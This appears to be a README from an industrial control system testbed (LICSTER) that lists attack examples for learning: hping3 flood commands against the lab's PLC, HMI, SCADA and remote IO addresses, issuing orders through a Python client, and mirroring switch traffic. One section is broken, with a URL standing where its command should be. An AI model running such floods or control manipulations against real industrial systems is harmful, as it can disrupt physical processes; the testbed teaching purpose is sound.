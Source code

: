 # Attacks 
For the LICSTER testbed, we provide some basic attack examples,
to understand the impacts of ICS attacks.

## Flooding
(hping3)[https://linux.die.net/man/8/hping3] is common tool to send custom TCP/IP packets.
In this scenario, it is used for DoS/flooding attacks.

Flooding of the Remote IOs:
```zsh
sudo hping3 --flood 192.168.0.51
sudo hping3 --flood 192.168.0.52
```

Flooding of the PLC:
```zsh
sudo hping3 --flood 192.168.0.30
```

Flooding of the HMI:
```zsh
sudo hping3 --flood 192.168.0.20
```

Flooding of the SCADA system:
```zsh
sudo hping3 --flood 192.168.0.10
```

## Attack the convey belt
This scenarios will demonstrate, how the convey belt could b inflamed.
For this, start a regular order on the HMI.
After this, the attack can be started:

```zsh
https://linux.die.net/man/8/hping3
```

The convey belt should stop, after the punching process.

## Attack on the manual control
Start python with the corresponding LICSTER client:
```zsh
python3 -i client.py
>>> 
```

E.g. execute an order over python:
```zsh
setOrder(1) 
```

## Using the mirror port
The default IP of the TP-Link switch is (http://192.168.0.1/)[http://192.168.0.1/].
Set the mirror port on PORT 8 and activate mirroring from PORT 1-7.
After this, you can connect to PORT 8 and will see all network traffic of the testbed.

<table align="center"><tr><td align="center" width="9999">
<img src="images/order_wireshark.png" width=70%></img>
</td></tr></table>


